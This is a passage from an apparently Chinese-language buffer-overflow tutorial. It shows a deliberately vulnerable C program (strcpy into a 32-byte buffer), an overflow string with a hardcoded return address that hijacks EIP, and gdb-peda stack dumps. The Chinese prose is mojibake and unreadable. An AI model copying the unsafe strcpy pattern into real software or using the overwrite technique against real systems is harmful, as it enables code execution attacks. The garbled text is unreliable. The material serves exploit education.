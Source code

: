 0040| 0xbfffef18 (&quot;AAAA\004\357\377\277&quot;)
0044| 0xbfffef1c --&gt; 0xbfffef04 (&#39;A&#39; &lt;repeats 24 times&gt;, &quot;\004\357\377\277&quot;)
0048| 0xbfffef20 --&gt; 0xbfffef00 --&gt; 0x0 
0052| 0xbfffef24 --&gt; 0xb7fbb000 --&gt; 0x1b1db0 
0056| 0xbfffef28 --&gt; 0xb7fb9244 --&gt; 0xb7e21020 (&lt;_IO_check_libio&gt;:    call   0xb7f28999 &lt;__x86.get_pc_thunk.ax&gt;)
0060| 0xbfffef2c --&gt; 0xb7e210ec (&lt;init_cacheinfo+92&gt;:    test   eax,eax)
0064| 0xbfffef30 (&#39;A&#39; &lt;repeats 24 times&gt;, &quot;\004\357\377\277&quot;)
0068| 0xbfffef34 (&#39;A&#39; &lt;repeats 20 times&gt;, &quot;\004\357\377\277&quot;)
0072| 0xbfffef38 (&#39;A&#39; &lt;repeats 16 times&gt;, &quot;\004\357\377\277&quot;)
0076| 0xbfffef3c (&#39;A&#39; &lt;repeats 12 times&gt;, &quot;\004\357\377\277&quot;)
</code></pre><p>鍗曟璧板畬鍚庨潰鐨勬寚浠わ紝姝ゆ椂EBP宸茶鎴戜滑瑕嗙洊鎴�<code>0x41414141</code>锛岃繑鍥炲湴鍧€涔熻瑕嗙洊鎴愪簡瀛楃涓查鍦板潃</p>
<p><img src="Image/14.png" alt=""></p>
<p>鎴戜滑鍗曟鎵ц锛孍IP琚垜浠姭鎸佸埌瀛楃涓茬殑棣栧湴鍧€</p>
<p><img src="Image/15.png" alt=""></p>
<p>褰撶劧杩欓噷涓€鍫�<code>inc ecx</code>鏄垜浠敤浜庢祴璇曠殑鏃犳剰涔夋寚浠わ紝濡傛灉鎴戜滑杈撳叆鐨勫瓧绗︿覆鏄湁鎰忎箟鐨勬寚浠ゅ憿锛�</p>
<p>鍥犱负Shellcode闀垮害鍘熷洜锛屾垜浠妸缂撳啿鍖哄紑澶т竴鐐癸紝涔熸洿绗﹀悎鐪熷疄鐜</p>
<pre><code>#include &lt;stdio.h&gt;
#include &lt;string.h&gt;

void Overflow(char temp[])
{
    char buffer[32];
    strcpy(buffer, temp);
    printf(&quot;%s\n&quot;, buffer);
}

int main()
{
    char temp[64] = &quot;AAAA&quot;;
    Overflow(temp);
    return 0;
}
</code></pre><p>杩愯鍒版嫹璐濇寚浠わ紝浠旂粏瑙傚療EBP鍜岀涓€涓弬鏁�</p>
<p><img src="Image/16.png" alt=""></p>
<p><code>0xbfffeed0</code>鏄洰鏍囧瓧绗︿覆鍦ㄧ紦鍐插尯鐨勮捣濮嬩綅缃紝璺濈EBP鏈�44瀛楄妭鐨勯暱搴�</p>
<p>淇敼杈撳叆鐨勫瓧绗︿覆</p>
<pre><code>char temp[64] = &quot;AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB\xd0\xee\xff\xbf&quot;;
</code></pre><p>鎷疯礉鍚庤瀵熸爤鐨勬儏鍐碉紝鍙互鐪嬪埌EBP宸茬粡琚�<code>BBBB</code>瑕嗙洊</p>
<pre><code>gdb-peda$ stack 30
0000| 0xbfffeec0 --&gt; 0xbfffeed0 (&#39;A&#39; &lt;repeats 40 times&gt;, &quot;BBBB\320\356\377\277&quot;)
0004| 0xbfffeec4 --&gt; 0xbfffef10 (&#39;A&#39; &lt;repeats 40 times&gt;, &quot;BBBB\320\356\377\277&quot;)
0008| 0xbfffeec8 --&gt; 0xb7fff918 --&gt; 0x0 
0012| 0xbfffeecc --&gt; 0xf0b2ff 
0016| 0xbfffeed0 (&#39;A&#39; &lt;repeats 40 times&gt;, &quot;BBBB\320\356\377\277&quot;)
0020| 0xbfffeed4 (&#39;A&#39; &lt;repeats 36 times&gt;, &quot;BBBB\320\356\377\277&quot;)
0024| 0xbfffeed8 (&#39;A&#39; &lt;repeats 32 times&gt;, &quot;BBBB\320\356\377\277&quot;)
0028| 0xbfffeedc (&#39;A&#39; &lt;repeats 28 times&gt;, &quot;BBBB\320\356\377\277&quot;)
0032| 0xbfffeee0 (&#39;A&#39; &lt;repeats 24 times&gt;, &quot;BBBB\320\356\377\277&quot;)
0036| 0xbfffeee4 (&#39;A&#39; &lt;repeats 20 times&gt;, &quot;BBBB\320\356\377\277&quot;)
0040| 0xbfffeee8 (&#39;A&#39; &lt;repeats 16 times&gt;, &quot;BBBB\320\356\377\277&quot;)
0044| 0xbfffeeec (&#39;A&#39; &lt;repeats 12 times&gt;, &quot;BBBB\320\356\377\277&quot;)
0048| 0xbfffeef0 (&quot;AAAAAAAABBBB\320\356\377\277&quot;)
0052| 0xbfffeef4 (&quot;AAAABBBB\320\356\377\277&quot;)
0056| 0xbfffeef8 (&quot;BBBB\320\356\377\277&quot;)
0060| 0xbfffeefc --&gt; 0xbfffeed0 (&#39;A&#39; &lt;repeats 40 times&gt;, &quot;BBBB\320\356\377\277&quot;)
0064| 0xbfffef00 (0xbfffef00)